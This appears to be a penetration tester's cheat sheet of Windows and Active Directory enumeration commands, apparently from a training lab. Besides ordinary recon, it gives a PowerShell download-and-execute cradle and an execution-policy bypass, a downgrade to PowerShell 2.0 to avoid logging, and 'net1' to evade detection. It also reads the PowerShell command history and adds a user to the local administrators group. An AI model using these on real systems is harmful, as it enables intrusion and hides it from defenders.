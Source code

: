 ## Env Commands For Host & Network Recon
```shell-session
hostname
[System.Environment]::OSVersion.Version
wmic qfe get Caption,Description,HotFixID,InstalledOn
ipconfig /all
set
echo %USERDOMAIN%
echo %logonserver%
```
OR
```shell-session
systeminfo
```

## Harnessing PowerShell
```shell-session
Get-Module
Get-ExecutionPolicy -List
Set-ExecutionPolicy Bypass -Scope Process
Get-ChildItem Env: | ft Key,Value
Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"
```
```shell-session
Get-Module
Get-ExecutionPolicy -List
whoami
Get-ChildItem Env: | ft key,value
```

## Downgrade Powershell (PowerShell 3.0 and after will log in event viewer, so try to downgrade to 2.0 or lower if possible)
```shell-session
Get-host
powershell.exe -version 2
Get-host
get-module
```
- PowerShell Operational Log are found under Applications and Services Logs > Microsoft > Windows > PowerShell > Operational
- Windows PowerShell log located at Applications and Services Logs > Windows PowerShell

## Firewall Checks
```shell-session
netsh advfirewall show allprofiles
```
**Windows Defender Check (from CMD.exe)
```shell-session
sc query windefend
```
**Configuration Settings
```shell-session
Get-MpComputerStatus
```

## Am I Alone?
```shell-session
qwinsta
```


## Network Information
```shell-session
arp -a
ipconfig /all
systeminfo
route print
netsh advfirewall show allprofiles
```
- arp -a
  - Lists all known hosts
- ipconfig /all
  - Prints out adapter settings for the host 
- systeminfo
- route print
  - Displays the routing table identifying known networks and layer three routes shared with the host
- netsh advfirewall show allprofiles
  - Displays the status of the host's firwall. We can determine if it is active and filtering traffic


## Windows Management Instrumentation (WMI)
Cheatsheet: https://gist.github.com/xorrior/67ee741af08cb1fc86511047550cdaf4
```shell-session
wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List
wmic process list /format:list
wmic ntdomain list /format:list
wmic useraccount list /format:list
wmic group list /format:list
wmic sysaccount list /format:list
wmic ntdomain get Caption,Description,DnsForestName,DomainName,DomainControllerAddress
```

## Net Commands (easy to detect, use net1 instead of net to not be detected)
- Local and domain users
- Groups
- Hosts
- Specific users in groups
- Domain Controllers
- Password requirements
```shell-session
net accounts
net accounts /domain
net group /domain
net group "Domain Admins" /domain
net group "domain computers" /domain
net group "Domain Controllers" /domain
net group <domain_group_name> /domain
net groups /domain
net localgroup
net localgroup administrators /domain
net localgroup Administrators
net localgroup administrators [username] /add
net share
net user <ACCOUNT_NAME> /domain
net user /domain
net user %username%
net use x: \computer\share
net view
net view /all /domain[:domainname]
net view \computer /ALL
net view /domain
```

## Dsquery
Found at: C:\Windows\System32\dsquery.dll
```shell-session
dsquery user
dsquery computer
dsquery * "CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=32))" -attr distinguishedName userAccountControl Description
dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=8192)" -limit 5 -attr sAMAccountName
```
- Last one searches for domain controller
- Second to last searches for users with no password required

**UAC values
Login script will execute = 1
Account is disabled = 2
Password not required = 32
Password can't change = 64
Encrypted text password allowed = 128
Normal user account = 512
Interdomain trust account = 2048
Domain workstation or member server = 4096
Domain controller = 8192
Password does not expire = 65536
Trust for impersonation = 524288
Account may not be impersonated = 1048576

**OID match strings
1. 1.2.840.113556.1.4.803 = value must match completely
2. 1.2.840.113556.1.4.804 = any bit in the chain matches
3. 1.2.840.113556.1.4.1941 = match filters that apply to the Distinguished Name of an object and will search through all ownership and membership entries.

**Logical Operators
&, |, !
(&(1) (2) (!3))
